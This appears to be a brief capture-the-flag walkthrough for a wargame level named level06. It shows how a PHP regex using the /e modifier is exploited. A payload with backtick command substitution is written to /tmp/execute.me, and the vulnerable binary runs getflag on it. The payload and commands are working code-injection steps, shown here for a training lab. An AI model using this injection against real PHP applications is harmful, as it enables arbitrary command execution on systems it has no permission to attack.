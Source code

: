 
We have a php file where we can see a regex expression with the flag `e` that allows us to execute php code:

``` php
cat level06.php
```

The program will take the content of the given file, and execute a group of regular expressions on the content of the file, so if we put `[x ${getflag}]` inside we will get the token:

``` shell
echo '[x ${`getflag`}]' > /tmp/execute.me
```

``` shell
./level06 /tmp/execute.me
```

